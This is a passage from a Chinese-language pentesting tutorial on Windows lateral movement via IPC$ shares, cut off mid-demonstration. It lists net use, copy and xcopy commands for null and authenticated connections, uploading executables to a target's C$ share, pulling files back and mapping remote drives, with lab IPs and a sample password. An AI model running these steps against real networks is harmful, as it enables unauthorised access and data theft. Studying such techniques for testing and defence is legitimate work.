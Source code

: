 ```

8.错误号2242:此用户的密码已经过期。例如：目标机器设置了账号管理策略，强制用户定期修改密码。
```

# 横向移动常用命令

## IPC命令介绍

这里主要介绍一下常用命令，对一些常见的命令进行演示，同时也是后期在横向移动的时候，会使用到的一些命令。

```
net use \\192.168.*.*\ipc$ "" /u:""                         #建立空连接
net use \\192.168.*.*\ipc$ "密码" /user:"Administrator"     #建立正常连接
net use                               #查看本机连接共享情况
dir \\xx.xx.xx.xx\C$\                 #查看文件列表
net view \\192.168.*.*                #查看已建立连接目标主机的共享资源
net time \\192.168.*.*                #查看目标主机时间
nbtstat -A 192.168.*.*                #查看目标主机的NetBIOS用户（自己本机也需开启）
net use \\192.168.*.*\ipc$ /del /y    #删除本机与指定ip建立的连接
net use * /del /y                     #删除本机所有已建立的连接
copy 1.exe \\192.168.*.*\c$\windows\temp\1.exe    #文件的上传下载
copy vps.exe \192.168.*.*\c$          #将本目录下的指定文件复制到目标系统中
xcopy d:\sqlitedata\*.* \\192.168.*.*\c$\temp /E /Y /D         #上传本地文件到目标的:c\windows\temp\目录下
copy \\192.168.*.*\c$\plugin_update.exe c:\                    #下载目标文件到本地c盘下
net share c$ /del                     #删除默认共享
net share c$=c:                       #恢复默认共享
net use z: \\192.168.*.*\c$ "密码" /user:"administrator"   #映射路径：对方的c盘映射为自己的z盘(其他盘类推)
net use z: \\192.168.*.*\c$   #访问
net use c: /del               #删除映射的c盘
net use * /del                #删除全部,会有提示要求按y确认
```

### IPC常用命令演示

只演示一些常用的命令，其它的命令可以自行操作，同时需要注意，部分情况下，在遇到目标主机是在域环境内，那么就需要使用域名\administrator来作为用户进行连接。

#### 建立空连接

这里我建立空连接，会提示无法访问，这是由于目标主机做了一些限制，会导致无法建立空连接，但同时就算能够建立空连接，但是也无法使用。

```
net use \\192.168.10.100\ipc$ "" /u:""
```

![image-20230620101433976](https://s2.loli.net/2023/06/24/HmeJA4PDtrwxSih.png)

#### 建立正常连接

建立正常连接，其实也就是需要使用使用到账号密码，当然使用不同权限的账号密码，也会形成不同的权限操作。

```
net use \\192.168.10.150\ipc$ "admin@123" /user:"admin"
```
